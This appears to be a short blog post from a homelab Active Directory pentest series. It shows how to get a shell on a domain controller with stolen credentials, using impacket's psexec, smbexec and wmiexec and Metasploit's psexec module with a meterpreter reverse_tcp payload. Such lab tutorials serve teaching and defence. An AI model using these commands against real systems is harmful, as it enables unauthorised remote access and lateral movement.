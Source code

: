 ```yaml
---
title: " Gaining Shell Access  "
layout: post
category: Active-Directory
tags: [AD, Windows-server]
excerpt: " "
---
```


# Gaining Shell Access 
** this done when you get credential (user and pass)**

## Using [impacket](https://github.com/SecureAuthCorp/impacket)
```bash
# psexec.py DC/Username:Password@DC-IP

psexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (75).png){: }

```bash
# smbexec.py DC/Username:Password@DC-IP

smbexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (76).png){: }

```bash
# wmiexec.py DC/Username:Password@DC-IP
wmiexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (77).png){: }

## using Metasploit

```bash
use exploit/windows/smb/psexec  
set rhost #dc-ip
set smbdomain #dc-name
set smbpass  # Userpass
set smbuser  # Usarname
set Lhost  # local-ip
set payload /windows/x64/meterpreter/reverse_tcp   # payload
run # run exploit
```
![Desktop View](/assets/img/AD_Lab/1 (78).png){: }

![Desktop View](/assets/img/AD_Lab/1 (79).png){: }

- now we get shell access 
![Desktop View](/assets/img/AD_Lab/1 (80).png){: }
